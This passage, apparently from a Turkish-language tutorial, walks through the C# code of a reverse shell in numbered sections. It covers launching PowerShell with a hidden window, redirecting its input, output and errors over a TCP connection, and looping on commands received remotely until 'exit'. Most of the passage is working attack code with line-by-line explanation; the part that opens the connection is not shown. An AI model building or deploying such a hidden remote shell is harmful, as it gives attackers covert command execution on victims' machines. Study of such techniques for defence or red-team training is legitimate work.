 


9. Process Ayarları

```
p.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;

p.StartInfo.UseShellExecute = false;

p.StartInfo.RedirectStandardOutput = true;

p.StartInfo.RedirectStandardError = true;

p.StartInfo.RedirectStandardInput = true;
```

- **`WindowStyle.Hidden`**: PowerShell penceresi gizli olarak çalıştırılır.
- **`UseShellExecute = false`**: Komut shell'i kullanılmaz, doğrudan komut dosyası çalıştırılır.
- **`RedirectStandardOutput`**, **`RedirectStandardError`**, **`RedirectStandardInput`**:
    - PowerShell’in çıktısı, hataları ve girdisi TCP bağlantısına yönlendirilir.


10. Process'in Çalıştırılması

```
p.Start();

p.BeginOutputReadLine();

p.BeginErrorReadLine();
```

- **`p.Start()`**: PowerShell process'inin başlatır.
- **`BeginOutputReadLine()`**, **`BeginErrorReadLine()`**: PowerShell’in çıktısını ve hatalarını okumaya başlar.



11. Kullanıcı Girdisinin İşlenmesi

```
string userInput = "";
while (!userInput.Equals("exit"))
{
userInput = streamReader.ReadLine();
p.StandardInput.WriteLine(userInput);
}
```

- **Amaç**: Kullanıcıdan gelen komutları PowerShell process'ine göndermek.
- **`streamReader.ReadLine()`**: TCP bağlantısından gelen kullanıcı komutunu okur.
- **`p.StandardInput.WriteLine(userInput)`**: Komut, PowerShell’e gönderilir.
- **Çıkış Koşulu**: Kullanıcı "exit" yazdığında, döngü sona erer.


12. Process'in Sonlandırılması

```
p.WaitForExit(); 
client.Close();
```

